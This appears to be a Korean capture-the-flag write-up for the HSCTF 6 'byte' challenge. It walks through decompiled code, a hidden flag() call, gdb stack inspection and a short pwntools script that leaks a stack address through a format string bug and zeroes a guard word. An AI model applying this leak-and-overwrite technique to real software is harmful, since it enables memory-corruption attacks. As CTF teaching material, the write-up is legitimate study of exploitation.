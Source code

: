 # [WriteUp]HSCTF 6 - byte

:black_nib:조성준(sjjo0225@gmail.com)

---

format string bug를 이용하면 간단하게 풀리는 문제이다.

---

## What does program do?

먼저 바이너리를 IDA로 디컴파일해보면 다음과 같다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int *v3; // [esp+10h] [ebp-8Ch]
  int i; // [esp+14h] [ebp-88h]
  unsigned int v5; // [esp+18h] [ebp-84h]
  char s[100]; // [esp+1Ch] [ebp-80h]
  unsigned int v7; // [esp+80h] [ebp-1Ch]
  int *v8; // [esp+90h] [ebp-Ch]

  v8 = &argc;
  v7 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  signal(11, (__sighandler_t)((char *)&dword_0 + 1));
  puts("Welcome to the byte.\n\nI'll give you a couple tries on this one.\n");
  for ( i = 0; i <= 1; ++i )
  {
    printf("Give me the address of the byte: ");
    fgets(s, 10, stdin);
    v5 = strtoul(s, 0, 16);
    s[strcspn(s, "\n")] = 0;
    *__errno_location() = 0;
    if ( *__errno_location() == 34 )
    {
      printf("Lol, try again (hex uint32).");
      exit(1);
    }
    if ( s[0] == 102 )
    {
      v3 = (int *)&v3;
      strcat(s, " has been nullified!\n\n");
      printf(s);
      zero(v5);
    }
    else
    {
      strcat(s, " is not a valid pointer (must start with `f`. Try again.)\n\n");
      printf(s);
    }
  }
  puts("Well, at least you tried.");
  exit(0);
}
```

분석해 보면, 이 프로그램은 길이 10만큼의 문자열을 입력받고, `strtoul()`을 호출한다. 

`strtoul()`은 파이썬의 `int()`와 비슷한 역할을 하는데, 정수로 바꿀 수 없는 문자를 만나면 함수 실행이 중단되고 그 위치까지의 결과만 반환한다.

 `strcspn()`은 첫 번째 문자열의 앞에서부터 검사하여 두 번째 문자열에 포함된 문자를 만나면 그 위치까지 검사한 문자의 수를 반환한다. `s[strcspn(s, "\n")] = 0;`은 입력받은 문자열의 마지막에 있는 개행 문자를 `NULL`로 바꾸어 준다.

입력받은 문자열의 첫 문자가 `'f'`(아스키 코드 102)이면 문자열을 출력하고 `zero()`를 호출한다. 

---

`zero()`를 디컴파일하면 다음과 같다.

```c
_DWORD *__cdecl zero(_DWORD *a1)
{
  _DWORD *result; // eax

  result = a1;
  *a1 = 0;
  return result;
}
```

문자열을 `strtoul()`로 변환한 정수를 주소로 인식하여 그 주소의 4바이트 공간에 0을 넣고 그 주소를 반환한다.

입력받은 문자열의 첫 문자가 `'f'`가 아니면 다시 시도하라는 메시지가 나온다. 지금까지의 과정을 두 번 반복하고 프로그램이 종료된다.

---

그런데 이 문제의 핵심은 이 바이너리가 디컴파일러를 속이고 있다는 것이다. gdb에서 어셈블리 코드를 보면 다음과 같은 부분이 있다.

```bash
0x56556571 <+590>:	cmp    WORD PTR [ebp-0x8e],0x0
0x56556579 <+598>:	jne    0x56556582 <main+607>
0x5655657b <+600>:	call   0x5655624d <flag>
```

IDA의 `main()`에서는 찾을 수 없는 코드이다. 뭔가 `flag`가 우리의 목적일 것 같은 느낌이 든다. IDA에서 `flag`를 찾아보자.

```c
void __noreturn flag()
{
  char i; // al
  FILE *stream; // [esp+Ch] [ebp-Ch]

  printf("that was easy, right? try the next level (bit). here's your flag: ");
  stream = fopen("flag", "r");
  for ( i = fgetc(stream); i != -1; i = fgetc(stream) )
    putchar(i);
  fclose(stream);
  exit(0);
}
```

flag라는 파일을 열어서 내용을 출력한다. 물론 로컬에서 익스플로잇을 진행할 때는 flag라는 파일이 없으면 아무것도 나오지 않을 것이다.

---

## Exploit plan

`ebp-0x8e`가 가리키는 공간에 `0x0`이 들어 있어야 `flag()`가 실행된다. `zero()`에서 우리가 입력한 문자열에 해당하는 주소를 4바이트나 `0x0`으로 채워 주기 때문에, 스택의 주소만 leak하면 된다. 

스택 공간에 FSB로 추출할 적당한 주소값이 있는지 알아보기 위해 문자열을 입력한 후에 break point를 걸고 스택 프레임을 살펴보자.

```bash
gdb-peda$ x/52wx $esp
0xffffd0a0:	0xffffd0d8	0x565570e2	0x00000010	0x00000000
0xffffd0b0:	0x00000000	0xf7fd51a0	0xf7e76599	0xffffd204
0xffffd0c0:	0xf7ffc984	0xf7ffc988	0x0001d10a	0xf7e768f0
0xffffd0d0:	0x00000000	0x12345678	0x34333231	0x38373635
0xffffd0e0:	0xffff000a	0xffffd10b	0x00000001	0x000000c2
0xffffd0f0:	0x00000000	0x00c30000	0x00000001	0xf7ffc900
0xffffd100:	0xffffd150	0x00000000	0x00000000	0x7bbe4900
0xffffd110:	0x0000000b	0xffffd3b0	0xf7e0d4a9	0xf7fb8748
0xffffd120:	0xf7fb5000	0xf7fb5000	0x00000000	0xf7e0d60b
0xffffd130:	0xf7fb53fc	0x56558fa0	0xffffd20c	0x7bbe4900
0xffffd140:	0x00000001	0xffffd204	0xffffd20c	0xffffd170
0xffffd150:	0x00000000	0x00000000	0x00000000	0xf7df5e81
0xffffd160:	0xf7fb5000	0xf7fb5000	0x00000000	0xf7df5e81
```

`0xffffd0bc`에 위치한 `0xffffd204`라는 값이 굉장히 스택의 주소처럼 생겼다.

```bash
gdb-peda$ x/4wx 0xffffd204
0xffffd204:	0xffffd3b0	0x00000000	0xffffd3cc	0xffffd3e2
gdb-peda$ x/s 0xffffd3b0
0xffffd3b0:	"/home/cappit/HSCTF 6/byte"
```

`0xffffd204`라는 주소에는 프로그램이 실행될 때마다 변하지 않는 고유한 값이 저장되어 있음을 확인할 수 있다. 즉, `ebp`와의 오프셋도 일정할 것이다. 우리는 이 값, 즉 `esp+0x1c`에 저장된 값을 leak함으로써 우리가 `0x0`으로 덮어야 할 위치가 어딘지 알아낼 수 있다.

```bash
gdb-peda$ p/x $ebp - 0x8e
$1 = 0xffffd0ca
gdb-peda$ p/x 0xffffd204 - 0xffffd0ca
$2 = 0x13a
```

---

오프셋을 구했으니 이제 익스플로잇을 작성하면 될 것 같다.

```python
# exploit_byte.py

from pwn import *

p = process('./byte')

p.sendlineafter("byte: ", "%7$x")
stack = hex(int(p.recvuntil(" ")[:-1], 16) - 0x13a)[2:]
log.info("second input: " + stack)

p.sendlineafter("byte: ", stack)

p.interactive()
```

```bash
$ python exploit_byte.py
[+] Starting local process './byte': pid 14971
[*] second input: ff90bf7a
[*] Switching to interactive mode
ff90bf7a has been nullified!

that was easy, right? try the next level (bit). here's your flag: [*] Got EOF while reading in interactive
$
```

